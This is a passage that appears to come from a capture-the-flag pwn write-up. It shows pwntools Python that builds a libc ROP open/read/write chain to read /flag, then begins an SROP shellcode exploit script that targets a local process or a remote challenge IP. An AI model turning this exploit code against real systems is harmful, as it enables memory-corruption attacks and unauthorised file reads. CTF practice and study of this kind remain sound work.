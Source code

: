 ```python
open_ = libc_base + libc.sym['open']

read = libc_base + libc.sym['read']

write = libc_base + libc.sym['write']

puts = libc_base + libc.sym['puts']

 

orw = p64(rdi) + p64(flag) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(open_)

orw += p64(rdi) + p64(3) + p64(rsi) + p64(buf) + p64(rdx) + p64(0x30) + p64(read)

orw += p64(rdi) + p64(1) + p64(write)

orw += b'/flag\x00\x00\x00'

edit(2, orw)

 

free(14)

pr()

```
#### 通过SROP执行shellcode
```python
from pwn import *
from struct import pack
import binascii
import pp_pb2
from google.protobuf import message
import subprocess
elfname = './pwn'
libcname = './libc-2.31.so'
local = 1
if local:
    p = process(elfname)
else:
    p = remote('123.56.135.185', 23536)
elf = ELF(elfname)
libc = ELF(libcname)

context.log_level = 'debug'
context.arch = 'amd64'
context.binary = elfname




r = lambda x: p.recv(x)
ra = lambda: p.recvall()
rl = lambda: p.recvline(keepends=True)
ru = lambda x: p.recvuntil(x, drop=True)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
c = lambda: p.close()
li = lambda x: log.info(x)
db = lambda: gdb.attach(p)
```